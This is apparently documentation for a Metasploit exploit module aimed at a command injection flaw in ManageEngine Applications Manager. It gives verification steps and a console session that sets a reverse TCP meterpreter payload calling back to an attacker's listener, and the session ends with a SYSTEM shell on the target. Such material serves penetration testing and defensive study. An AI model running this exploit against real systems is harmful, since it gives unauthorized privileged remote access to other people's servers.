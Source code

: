 ## Vulnerable Application
This module exploits command injection vulnerability in the ManageEngine Application Manager product. An unauthenticated user can execute a operating system command under the context of privileged user. Publicly accessible testCredential.do endpoint takes multiple user inputs and validates supplied credentials by accessing given system. This endpoint calls a several internal classes and then executes powershell script without validating user supplied parameter when the given system is OfficeSharePointServer.

**Vulnerable Application Installation Steps**

Go to following website and download Windows version of the product. It comes with built-in Java and Postgresql so you don't need to install anything else.
[https://www.manageengine.com/products/applications_manager/download.html](https://www.manageengine.com/products/applications_manager/download.html)

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/windows/http/manageengine_appmanager_exec`
- [ ] Set `RHOST <RHOST>`
- [ ] Set `PAYLOAD windows/meterpreter/reverse_tcp`
- [ ] Set `LHOST <LHOST>`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target is vulnerable.` in console.
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `Triggering the vulnerability` in console.
- [ ] **Verify** that you are seeing `Sending stage to <TARGET>` in console.
- [ ] **Verify** that you have your shell.

## Scenarios

```
msf5 > 
msf5 > use exploit/windows/http/manageengine_appmanager_exec 
msf5 exploit(windows/http/manageengine_appmanager_exec) > set RHOST 12.0.0.192
RHOST => 12.0.0.192
msf5 exploit(windows/http/manageengine_appmanager_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/manageengine_appmanager_exec) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf5 exploit(windows/http/manageengine_appmanager_exec) > check
[+] 12.0.0.192:9090 The target is vulnerable.
msf5 exploit(windows/http/manageengine_appmanager_exec) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Trigerring the vulnerability
[*] Sending stage (179779 bytes) to 12.0.0.192

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```